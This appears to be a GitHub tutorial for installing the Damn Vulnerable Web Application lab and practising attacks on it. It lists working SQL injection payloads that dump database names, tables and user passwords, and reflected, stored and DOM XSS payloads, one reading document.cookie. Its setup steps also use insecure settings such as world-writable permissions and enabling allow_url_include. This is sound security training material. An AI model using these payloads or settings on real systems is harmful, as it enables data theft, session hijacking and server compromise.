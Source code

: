 # Implementing SQL Injection & Cross Site Scripting using DVWA

### DVWA
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment.

The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficulty, with a simple straightforward interface. Please note, there are both documented and undocumented vulnerabilities with this software. This is intentional. You are encouraged to try and discover as many issues as possible.

#### Setting up DVWA
- **Step 1** : Type the following commands </br>
  Setting up Apache Web server, Installting DVWA, Installing Mysql, 
  ``` 
  $ sudo apt install apache2 
  $ sudo apt-get install git
  $ cd /var/www/html/
  $ sudo git clone https://github.com/ethicalhack3r/DVWA.git
  $ sudo chmod -R 777 /var/www/html/DVWA/
  $ sudo apt install mysql-server
  $ mysql -u root -p
  $ sudo service apache2 restart
  $ sudo service mysql restart
  ```
  </br>
- **Setp 2**: Type the following commands</br>
  Configure DVWA
  ```
  $ sudo vim /var/www/html/dvwa/config/config.inc.php.dist
  ```
  Add the database name, user and password of the mysql database in the php file
  ```
  $ sudo vim /etc/php5/apache2/php.ini
  ```
  Add the following lines </br>
   > **Enable Allow_url_fopen** </br>
   > **Enable Allow_url_include**
   </br>
- **Setp 3**: </br>
  Starting DVWA </br>
  Open your Browser and type http://127.0.0.1/DVWA/setup.php </br>
  Complete the basic setup process and you are ready to use your DVWA
  
### SQL Injection
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack

- Display the hostname of our web app </br>
  ```' union select null, @@hostname#```</br>
  
- Display Database User </br>
  ```test' union select null, user() #``` </br>
  
- Display the Database Name </br>
  ```test' union select null, database() #```</br>
  
- List all tables in the information schema. </br>
  ```test' and 1=0 union select null, table_name from information_schema.tables #```</br>
  
- Display all the column contents in the information schema users table </br>
  ```test' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #```</br>
  
- List all user tables in the information schema </br>
  ```test' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'# ```</br>


### Cross Site Scripting (XSS)
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

- Reflected XSS payloads </br>
  **Easy** :  ```<script>alert(“xss”)</script> ``` </br>
  **Medium** : ```<Script>alert(“SMIT”)</Script>```</br>
  **Hard** : ```<img src=x onerror=alert(“falcon”)>``` </br>

- Stored XSS Payloads</br>
  **Easy** : ```<script>alert(document.domain)</script>``` </br>
  **Medium** : ```<img src=x onerror=alert(document.domain)>```<br>
  **Hard** : ```<body onload=alert(“bingo”)>```

- DOM XSS Payloads </br>
  **Easy** : ```/?default=<script>alert(1)</script>``` </br>
  **Medium** : ```/?default=English#<script>alert(1)</script>``` </br>
  **Hard** : ```/?default=English#<script>alert(document.cookie)</script>```
